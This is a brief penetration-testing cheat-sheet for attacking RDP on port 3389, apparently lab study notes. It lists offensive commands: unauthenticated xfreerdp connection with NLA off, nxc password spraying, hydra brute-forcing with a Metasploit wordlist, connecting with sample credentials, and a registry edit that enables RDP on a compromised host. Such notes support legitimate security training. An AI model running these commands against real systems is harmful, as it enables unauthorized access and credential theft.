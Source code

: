 Port 3389

no creds:
```
xfreerdp /v:192.168.161.221 -sec-nla
```

spray:
```
nxc rdp ip -u user -p pass
```

connect to rdp:
```
xfreerdp /u:chepe /p:P@ssw0rd /v:10.10.126.148 /drive:myfiles,/home/daniel/Documents /cert:ignore
```

debug xfreerdp connection
```
xfreerdp /u:chepe /p:P@ssw0rd /v:10.10.126.148 /drive:myfiles,/home/daniel/Documents /cert:ignore +clipboard /log-level:DEBUG
```

Enable RDP in registry:
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- check if RDP was enabled succesfully:
```
cmd /c reg query \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections
```
- should output 0x0 if successful
	- 1x0 is not succesful

Bruteforcing:
```
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.13.141 rdp
```
